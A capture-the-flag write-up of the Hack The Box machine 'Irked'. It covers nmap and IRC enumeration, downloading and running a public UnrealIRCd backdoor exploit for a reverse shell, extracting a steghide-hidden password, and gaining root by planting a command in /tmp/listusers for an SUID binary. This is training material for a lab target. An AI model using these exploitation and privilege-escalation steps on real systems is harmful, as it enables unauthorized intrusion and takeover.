

# Irked: 10.10.10.117

## Hints

- Getting a foothold requires finding an old school chat service and finding a well-known exploit
- Privesc to another account involves finding a hidden file with hints about steganography
- Privesc to root is about finding a SUID binary, then determining how it works to get code execution

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
```

The SSH version number leads me to believe that we have a Debian Jessie target that is also running a webserver on port 80 and RPC on port 111.

## 80: Recon

After looking at port 80 in a web browser we only see an image of an anguished face and a note that IRC is almost working!



The web page code doesn't give much else away.

```html

<br>
<b><center>IRC is almost working!</b></center>
```

Tried running the usual `gobuster` to find some hidden directories, but nothing was returned. Since the website stated that IRC was almost working, it makes sense to run a full port scan to see if any IRC ports are open.

```none
nmap -p- -oA logs/nmap-all 10.10.10.117
```

And the results find an IRC port open on 6697.

```none
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 10:49 NZST
Nmap scan report for 10.10.10.117
Host is up (0.032s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
44875/tcp open  unknown
65534/tcp open  unknown
```

## 6697: Recon

Sine port 6697 looks interesting, ran a service scan against that single port.

```none
nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 194,6660-7000 irked.htb
```

And we can see that the UnrealIRCd service is running.

```none
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 11:01 NZST
Nmap scan report for irked.htb (10.10.10.117)
Host is up (0.031s latency).
Not shown: 341 closed ports
PORT     STATE SERVICE VERSION
6697/tcp open  irc     UnrealIRCd
| irc-botnet-channels: 
|_  ERROR: Closing Link: [10.10.14.7] (Throttled: Reconnecting too fast) -Email djmardov@irked.htb for more information.
```

Since we have an open IRC server, we can attempt to anonymously connect to it and attempt to extract some information. I haven't done much IRC testing before so had a look at the [HackTricks Pentesting IRC article](https://book.hacktricks.xyz/pentesting/pentesting-irc). Seems like we can try to connect to the server using netcat and issue some commands. Started by connecting.

```none
nc -nv 10.10.10.117 6697
```

Then specified a random user and nickname.

```none
USER user1 0 * user1
NICK user1
```

After we provide some user information, we get greeted with a large banner and some information about the service.

```none
:irked.htb 001 user1 :Welcome to the ROXnet IRC Network user1!user1@10.10.14.7
:irked.htb 002 user1 :Your host is irked.htb, running version Unreal3.2.8.1
:irked.htb 003 user1 :This server was created Mon May 14 2018 at 13:12:50 EDT
:irked.htb 004 user1 irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
:irked.htb 005 user1 UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
:irked.htb 005 user1 WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
:irked.htb 005 user1 EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
:irked.htb 251 user1 :There are 1 users and 0 invisible on 1 servers
:irked.htb 253 user1 1 :unknown connection(s)
:irked.htb 255 user1 :I have 1 clients and 0 servers
:irked.htb 265 user1 :Current Local Users: 1  Max: 1
:irked.htb 266 user1 :Current Global Users: 1  Max: 1
:irked.htb 422 user1 :MOTD File is missing
:user1 MODE user1 :+iwx
```

The HackTricks article provided some interesting commands, however, none of them got any really useful information.

```none
ADMIN
:irked.htb 256 user1 :Administrative info about irked.htb
:irked.htb 257 user1 :Bob Smith
:irked.htb 258 user1 :bob
:irked.htb 258 user1 :widely@used.name
 
USERS
:irked.htb 446 user1 :USERS has been disabled

NAMES
:irked.htb 366 user1 * :End of /NAMES list.

LIST
:irked.htb 321 user1 Channel :Users  Name
:irked.htb 323 user1 :End of /LIST
```

The only interesting thing that I found so far was the IRC software version: `Unreal3.2.8.1`. I think I have exploited UnrealIRC in another CTF, as the software and version number seem familiar. Anyway, had a quick look in `searchsploit` looking for exploits.

```none
└─$ searchsploit unrealirc
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                      | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                           | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                    | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                         | windows/dos/27407.pl
---------------------------------------------------------------------------------- ---------------------------------
```

The good news is that there are a variety of exploits available against this software and version. However, there is no Python exploit! I decided to try to find a Python exploit by doing a Google for "UnrealIRCd 3.2.8.1 python exploit github". This seems to work for most common exploits, as a lot of people port exploits to Python for practice or learning, which is useful as it is so easy to read and modify Python exploits. I found the [UnrealIRCd 3.2.8.1 Backdoor](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor) GitHub repo, which looked pretty well coded and used Python 3. Started by downloading the Python file.

```none
wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/raw/master/exploit.py
```

And ran the exploit using:

```none
python3 exploit.py 10.10.10.117 6697 -payload bash
```

The exploit would accept different payload arguments for the reverse shell. You can pick from `python`, `bash` and `netcat`. The `python` option for the payload didn't work for me, but the bash one did. If you have a look at the Python source code, you can see that the reverse shell payloads are the usual examples. Anyway, started a netcat listener on my system and ran the exploit.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.117] 57397
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

Success! We get a shell as the `ircd` user.

## Privesc: `ircd` to `djmardov`

Started running a linpeas scan as the `ircd` user. After going through the output, I didn't see anything really interesting. Only a couple of users were on the system that had a shell.

```none
djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash                                                           
ircd:x:1001:1001::/home/ircd:/bin/sh
root:x:0:0:root:/root:/bin/bash
speech-dispatcher:x:112:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh
```

Since I didn't find much from the linpeas enumeration, I started having a poke around the system looking for the things linpeas wouldn't usually find. One thing that seemed out of place was a file named `.backup` in `djmardov`s home directory.

```none
ircd@irked:/home/djmardov/Documents$ cat .backup 
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

In my experience steg most likely refers to images, so started looking for common image file formats. I put together a command using `find` on the `/home` directory, recursively looking for files with a `jpeg` MIME type. Didn't find anything so widened my search to start from the root folder.

```none
find / -type f -exec file --mime-type {}  \; | awk '{if ($NF == "image/jpeg") print $0 }' 2> /dev/null
```

Found the `irked.jpg` file used in the website. This seemed like a suitable image to use and made sense that the machine author would put the image there. I used to do lots of steganography back in my digital forensics days, so this was quite fun. I had a look at the [Stego Tricks article on HackTricks](https://book.hacktricks.xyz/stego/stego-tricks) and started going through the list of potential steganography tools.

Steghide was the first on the list that was suitable for images and accepted a password, so I installed the tool.

```none
sudo apt install steghide
```

Then ran the tool with the password from the `.backup` file.

```none
└─$ steghide extract -sf irked.jpg --passphrase UPupDOWNdownLRlrBAbaSSss
wrote extracted data to "pass.txt".
```

Success! Got some output in the `pass.txt` file. Having a look at the extracted data we have hopefully got a password for the `djmardov` account.

```none
└─$ cat pass.txt        
Kab6h+m+bbp2J:HG
```

Tried logging in using SSH as the `djmardov` account.

```none
└─$ ssh djmardov@10.10.10.117
The authenticity of host '10.10.10.117 (10.10.10.117)' can't be established.
ECDSA key fingerprint is SHA256:kunqU6QEf9TV3pbsZKznVcntLklRwiVobFZiJguYs4g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.117' (ECDSA) to the list of known hosts.
djmardov@10.10.10.117's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:~$ cd Documents/
djmardov@irked:~/Documents$ wc -c user.txt 
33 user.txt
```

Success! User flag achieved!

## Privesc: `djmardov` to `root`

As per usual, ran linpeas on the system as the `djmardov` user. This output took me a while to go through and had to look through it a couple of times. After a while, I thought the only interesting thing was a couple of files with SUID set that I did not recognize. I haven't done enough SUID exploitation to know what looks out of place quickly, so I usually have to do some research while looking through it.

After a little trial and error, I noticed that the `/usr/bin/viewuser` binary is not a standard executable. To determine this, I just did a Google search about it. Unfortunately, I figured this out as there were references to this HTB machine which was a bit of a giveaway. Started by checking the permissions on the file.

```none
djmardov@irked:/dev/shm$ ls -lisa /usr/bin/viewuser
1062682 8 -rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
```

So we can read and execute the file. Running it gave an error that a specific file that the script called could not be found.

```none
djmardov@irked:/dev/shm$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-09-17 18:14 (:0)
djmardov pts/2        2021-09-17 19:30 (10.10.14.7)
sh: 1: /tmp/listusers: not found
```

The next step was to make the missing file in the `/tmp` folder named `listusers`.

```none
djmardov@irked:/dev/shm$ touch /tmp/listusers
```

Tried to run it again, and got a permission denied error.

```none
djmardov@irked:/dev/shm$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-09-17 18:14 (:0)
djmardov pts/2        2021-09-17 19:30 (10.10.14.7)
sh: 1: /tmp/listusers: Permission denied
```

Gave the file execute permissions for all users, and tried running it again.

```none
djmardov@irked:/dev/shm$ chmod +x /tmp/listusers 
djmardov@irked:/dev/shm$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-09-17 18:14 (:0)
djmardov pts/2        2021-09-17 19:30 (10.10.14.7)
```

With the executable file available, the program runs without any error. The next logical step would be to add a command into the file, which will hopefully be executed when the other script calls it. Added the `id` command as a PoC.

```none
djmardov@irked:/dev/shm$ echo id > /tmp/listusers 
djmardov@irked:/dev/shm$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-09-17 18:14 (:0)
djmardov pts/2        2021-09-17 19:30 (10.10.14.7)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

Success! Code execution! At this point, I was feeling pretty lazy and just added `cat /root/root.txt` to the `viewuser` file to dump the root key. However, you could easily add a command to make a reverse shell back to the attacker's system, or craft an SSH `authorized_keys` file into the `root` user account.

Done!

## Lessons Learned

- Should learn more about SUID for privesc and do some research on how to spot odd binaries

## Useful Resources

- [HackTheBox - Irked by ippsec](https://www.youtube.com/watch?v=OGFTM_qvtVI)
- [HTB: Irked by 0xdf](https://0xdf.gitlab.io/2019/04/27/htb-irked.html)
